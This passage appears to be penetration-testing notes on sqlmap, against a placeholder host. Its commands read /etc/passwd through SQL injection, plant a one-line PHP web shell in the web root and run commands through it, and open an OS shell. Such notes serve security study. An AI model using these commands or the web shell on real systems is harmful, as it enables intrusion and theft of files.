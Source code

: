 - if return False, we don't have DBA access

2. Reading local files

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

- will output in your local storage

3. Writing local files

- can use `--file-write` and `--file-dest`

```sh
❯ echo '<?php system($_GET["cmd"]); ?>' > shell.php
❯ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
❯ curl http://www.example.com/shell.php?cmd=ls+-la
```

## OS Command Execution

```
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

- SQLMap default to UNION technique to get an OS shell
- if failed with UNION technique

```
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```
